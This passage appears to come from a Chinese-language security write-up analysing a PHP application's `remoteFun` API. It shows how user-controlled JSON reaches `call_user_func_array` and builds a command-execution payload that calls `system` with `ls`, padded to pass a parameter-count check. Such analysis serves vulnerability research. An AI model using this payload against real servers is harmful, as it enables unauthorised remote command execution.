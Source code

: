 ![image-20220202192906612.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-1b827ae18a46266ffd0adb5d0fcdd9641c6f73f8.png)

通过代码可以看到`authcode`方法即包含加密功能也包含解密功能，如果`authcode`方法第二个参数为空，则进行加密；如果第二个参数为`DECODE`，则进行解密。

所以我们可以通过这个函数去加密我们的 payload。先返回前面存在`call_user_func_array`的方法去查看 payload 如何构造，贴关键代码

```php
    public function remoteFun()
    {
        $data = $this->parseData();
        empty($data['name']) ? exit(api_json('1402')) : FALSE;
        do_action('api_software_remote_fun', [$data]);
        eval($this->software['0']['remote']);
        if (!function_exists($data['name'])) {
            exit(api_json('1401'));
        }
        $fun_param_num = count(get_fucntion_parameter_name($data['name']));
        if ($fun_param_num != '0') {
            empty($data['param']) ? exit(api_json('1402')) : FALSE;
            $res_param_num = count($data['param']);
            if ($fun_param_num != $res_param_num) {
                exit(api_json('1403'));
            }
        } else {
            $data['param'] = array();
        }
        $test = $data['param'];
        $testst = $data['name'];
        exit(api_json('1408', array('result' => @call_user_func_array($data['name'], $data['param']))));
    }
```

首先我们前面已经知道 payload 的明文形式应该为 json 格式，分析一下`remoteFun`方法，其中`get_fucntion_parameter_name`方法代码如下

![image-20220202193552280.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-d708ca469976e40d3a6e355a1245e325b1903a46.png)

会获取参数个数，即如果我们传入`{"name":"system","param":"ls"}`，这里 return 为2。

再继续往下看，这段代码通过`count`获取 param 个数，上述 payload 中，param 只有一个`ls`，所以将会返回为1

```php
$res_param_num = count($data['param']);
```

继续往下的判断条件会判断是否相等，如果不相等流程将会停止退出

```php
if ($fun_param_num != $res_param_num) {
                exit(api_json('1403'));
            }
```

所以我们最终构造的payload如下，往`param`中填充多余的一个值，使其数量相等满足 if 条件判断

```php
{"name":"system","param":["ls","dotast"]}
```
